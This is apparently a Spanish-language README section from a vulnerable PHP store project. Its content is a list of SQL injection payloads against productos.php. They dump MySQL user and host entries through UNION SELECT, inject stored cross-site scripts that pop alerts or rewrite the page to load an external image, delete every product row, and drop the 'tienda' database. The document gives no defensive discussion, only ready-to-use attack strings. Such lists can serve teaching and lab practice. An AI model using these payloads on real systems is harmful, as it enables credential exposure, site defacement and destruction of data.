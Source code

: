 ## Payloads

- Mostrar todos los usuarios del servidor:
  ```
  /productos.php?id=-1 union select 1,2,group_concat(user, '@', host),4 from mysql.user--
  ```
- Concatenar al nombre del fabricante un código malicioso:
  ```
  /productos.php?id=-1; insert into fabricante values(null, 'Código malicioso'); --
  ```
- Registrar un fabricante con código que muestre una alerta:
  ```
  /productos.php?id=-1; insert into fabricante values(null, '<script>alert("Hackeado")</script>'); --
  ```
- Registrar un fabricante con código malicioso que muestra una imagen arriba de la tabla:
  ```
  /productos.php?id=-1; insert into fabricante values(null, '<script>document.querySelector("nav").innerHTML="<img src=https://shorturl.at/PO312>"</script>'); --
  ```
- Borrar todos los registros de la tabla producto:
  ```
  /productos.php?id=-1; delete from producto; --
  ```
- Eliminar la base de datos:
  ```
  /productos.php?id=-1; drop database tienda; --
  ```